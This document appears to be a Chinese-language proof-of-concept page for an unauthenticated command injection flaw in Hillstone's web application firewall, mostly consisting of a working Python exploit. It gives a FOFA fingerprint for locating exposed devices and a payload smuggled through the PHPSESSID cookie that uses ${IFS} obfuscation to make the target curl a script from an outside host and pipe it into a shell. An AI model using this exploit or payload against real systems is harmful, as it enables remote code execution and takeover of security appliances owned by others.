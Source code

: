 # 山石网科应用防火墙WAF未授权命令注入漏洞

山石网科 Web 应用防火墙（WAF）是专业智能的Web 应用安全防护产品，在Web资产发现、漏洞评估、流量学习、威胁定位等方面全面应用智能分析和语义分析技术，帮助用户轻松应对应用层风险，确保网站全天候的安全运营。

在WAF的验证码页面，存在命令注入漏洞，恶意攻击者可通过构造恶意请求，拼接命令执行任意代码，控制服务器。

**受影响版本:**
5.5R6-2.6.7~5.5R6-2.8.13

## fofa

```yaml
icon_hash="-839455805"
```

## poc

```python
import requests,sys
requests.packages.urllib3.disable_warnings()
session = requests.Session()

target = "https://192.168.247.196/".strip("/")
cmd="curl\x24{IFS}192.168.247.1:9999/cccc|sh"
url = target+"/rest/captcha"
headers = {"Accept":"*/*","User-Agent": "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)","Accept-Language":"en;q=0.9"}
sss=requests.get(url,headers=headers,verify=False)

if "PNG" not  in sss.content:
    print("target not vuln")
    sys.exit()




cookies = {"PHPSESSID":"aaaaaaaaaa%3b"+cmd+"%3bd"}
try:
    response = session.get(target+"/rest/captcha", headers=headers, cookies=cookies,verify=False,timeout=5)
except requests.exceptions.ReadTimeout:
    print("payload work")
    sys.exit()

print("payload send!")
```

